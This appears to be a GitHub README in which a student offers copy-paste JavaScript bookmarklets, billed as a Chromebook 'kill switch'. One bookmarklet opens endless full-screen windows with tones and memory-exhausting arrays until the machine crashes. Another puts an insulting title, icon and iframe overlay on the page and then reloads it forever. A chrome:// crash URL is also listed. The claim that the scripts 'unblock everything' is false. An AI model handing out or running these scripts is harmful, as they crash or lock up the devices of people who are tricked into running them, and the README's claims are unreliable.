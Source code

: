 # KILL-SWICH-CHROMEBOOK 
ok... i was bored at school so i decided to make a kill switch for chrome book it will unblock everything and this will destroy your Chromebook 
this is the first this will make many tabs untill it chrashes your computer/pc.etc... this will work for book marklets too ENJOYY : ) 
FUN WITH SHREK  just copy the link and dont click on the blue link 

this will open many tabs at one untill your computer/pc etc... crashes enjoy
-------------------------------------------------
javascript:while(true) {  var a=Math.floor(10000*Math.random()+1),  b=window.open('_blank','Lag'+a,`height=${screen.height},width=${screen.width}`);  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);  b.document.body.innerHTML='<script>[...Array(2**32-1)]</script>';}
just copyy and paste it 
---------------------------------------------------------------------
{2}
this will.... welll... lets just say no more computer! HAHAHAHHALOLOLOLOLLLOLL
------------------------------------------------------------------------------------
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://i.ytimg.com/vi/cjZcW3b8LyM/maxresdefault.jpg';document.title = 'Get fucked loser!';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);((function()%7Bvar a,b,c;c="https://www.icegif.com/wp-content/uploads/icegif-5543.gif",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1500px; height: 750px; right: 10px; top: 10px; border: 5px solid #FFFFFF; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this); (function (){ alert('No more computer loser'); })(); setTimeout(function(){ while(1)location.reload(1)}, 1000);
-------------------------------------------------------------------------------------------------------------------------
next is just an easy and harmless little trick just copy and paste this in your search bar!
chrome://inducebrowsercrashforrealz
-------------------------------------------------------------------------------------------------------------------------------- 				
                                          
